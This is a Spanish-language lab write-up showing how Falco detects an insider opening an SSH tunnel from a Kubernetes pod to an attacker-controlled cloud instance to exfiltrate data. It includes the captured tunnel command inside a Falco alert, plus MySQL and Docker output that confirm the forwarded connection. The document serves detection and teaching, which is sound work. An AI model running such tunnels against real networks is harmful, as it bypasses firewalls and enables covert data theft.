

# Scenario A: Data Exfiltration via SSH Tunneling i

> SSH Port forwarding

En un entorno corporativo seguro, un empleado malintencionado busca evadir las restricciones impuestas por la compañía y establecer un canal de comunicación no autorizado desde un pod de Kubernetes. Para lograrlo, configura una conexión <strong>SSH tunneling</strong> con el objetivo de exfiltrar información de manera encubierta.

Aprovechando el acceso al pod, el atacante ejecuta comandos para establecer un <strong>túnel SSH reverso</strong> hacia una instancia de <em>Compute Engine</em> en <strong>Google Cloud Platform (GCP)</strong> bajo su control. Esta técnica le permite no solo extraer datos sensibles desde la infraestructura interna, sino también redirigir el tráfico de la subred en la que se encuentra el pod. Como resultado, el atacante obtiene acceso indirecto a otros recursos internos que, de otra manera, estarían protegidos por controles de red y políticas de seguridad.

El uso de <strong>SSH tunneling</strong> en este contexto representa una amenaza significativa, ya que permite eludir firewalls y sistemas de monitoreo convencionales. Sin una solución de seguridad efectiva como <em>Falco runtime security</em>, este tipo de actividad podría pasar desapercibida, comprometiendo la integridad y confidencialidad de la información corporativa.

<!-- 
 -->

Redirigir el puerto 3306 (MySQL) del servidor remoto (34.27.180.215) al pod a través de una conexión SSH. En otras palabras, cualquier conexión a localhost:3306 en el pod se enviará al puerto 3306 del servidor remoto.

## Scenario

Si la comunicación va a través del túnel SSH, el tráfico inicial sale del pod de EKS hacia la instancia de GCP cifrado por SSH. Al llegar a la instancia de GCP, el túnel SSH la descifra y la reenvía localmente a la instancia de MySQL.

Se puede observar que se levanta la regla en Falco.

    {"hostname":"falcox33-falco-obsec-s6nzm","output":"01:30:39.455536915: Warning ssh tunneling (user=<NA> user_loginuid=-1 program=ssh command=ssh -L 60080:127.0.0.1:60080 -N ots-yODc2NGQ@10.10.10.133 ots-yODc2NGQ@10.10.10.133 pid=3598 file=<NA> parent=bash gparent=containerd-shim ggparent=systemd gggparent=<NA> container_id=b83b3f40cab2 image=sha256) k8s.ns=falco-custom-lab k8s.pod=sneaky container=b83b3f40cab2","priority":"Warning","rule":"ssh tunneling/ssh port forwarding","source":"syscall","tags":["T1572","container","host","mitre_command_and_control","network"],"time":"2025-02-22T01:30:39.455536915Z", "output_fields": {"container.id":"b83b3f40cab2","container.image.repository":"sha256","evt.time":1740187839455536915,"fd.name":null,"k8s.ns.name":"falco-custom-lab","k8s.pod.name":"sneaky","proc.aname[2]":"containerd-shim","proc.aname[3]":"systemd","proc.aname[4]":null,"proc.cmdline":"ssh -L 60080:127.0.0.1:60080 -N ots-yODc2NGQ@10.10.10.133 ots-yODc2NGQ@10.10.10.133","proc.name":"ssh","proc.pid":3598,"proc.pname":"bash","user.loginuid":-1,"user.name":"<NA>"}}

Se puede corroborar la conexión desde el pod a través del tunnel local hacia la base de datos. Esta dirección IP pertenece a la red de Docker

      mysql> SHOW PROCESSLIST;
      +----+-----------------+------------------+------+---------+---------+------------------------+------------------+
      | Id | User            | Host             | db   | Command | Time    | State                  | Info             |
      +----+-----------------+------------------+------+---------+---------+------------------------+------------------+
      |  5 | event_scheduler | localhost        | NULL | Daemon  | 1614663 | Waiting on empty queue | NULL             |
      | 29 | root            | localhost        | NULL | Query   |       0 | init                   | SHOW PROCESSLIST |
      | 32 | root            | 172.18.0.1:60616 | test | Sleep   |       3 |                        | NULL             |
      +----+-----------------+------------------+------+---------+---------+------------------------+------------------+

En efecto el direccionamiento corresponde a 

root@draios:/home/diegoposada# docker network ls
NETWORK ID     NAME                DRIVER    SCOPE
4b4eb1ddee9e   bridge              bridge    local
9c75882f79cc   db-server_default   bridge    local
d90c1546bdb2   host                host      local
859b691afc51   none                null      local

root@draios:/home/diegoposada# docker inspect db-server_default | grep -i subnet
                    "Subnet": "172.18.0.0/16",

